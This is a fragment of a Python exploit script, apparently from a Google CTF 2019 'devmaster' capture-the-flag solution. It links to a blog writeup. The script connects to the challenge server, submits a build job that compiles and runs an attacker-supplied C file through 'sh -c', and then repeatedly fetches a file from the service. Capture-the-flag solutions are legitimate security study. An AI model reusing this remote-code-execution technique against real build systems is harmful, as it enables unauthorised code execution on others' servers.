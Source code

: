 ```python  

           ref_id = u32(b.read(4))   
           filename = read_string(b)  
           contents = read_string(b)  
           print("fetched file=%r contents=%r" % (filename, contents), file=sys.stderr)  
       else:  
           print("opcode=%d body=%r" % (opcode, body), file=sys.stderr)

command = "gcc main.c && ./a.out"  
  
got_stdout = threading.Event()

with remote("127.0.0.1", 1337) as p:  
#with remote("devmaster.ctfcompetition.com", 1337) as p:  
#with remote("devmaster-8001.ctfcompetition.com", 1337) as p:  
   t = threading.Thread(target=reader)  
   t.start()

   time.sleep(5)

   send_build(p, 0, ["sh", "-c", command], [("main.c",
open("main2.c").read())])

   got_stdout.wait()  
   for _ in xrange(1000):  
       send_fetch(p, 0, "f1")  
       time.sleep(0.1)

   t.join()  
```

Original writeup (https://blog.bushwhackers.ru/googlectf2019-devmaster/).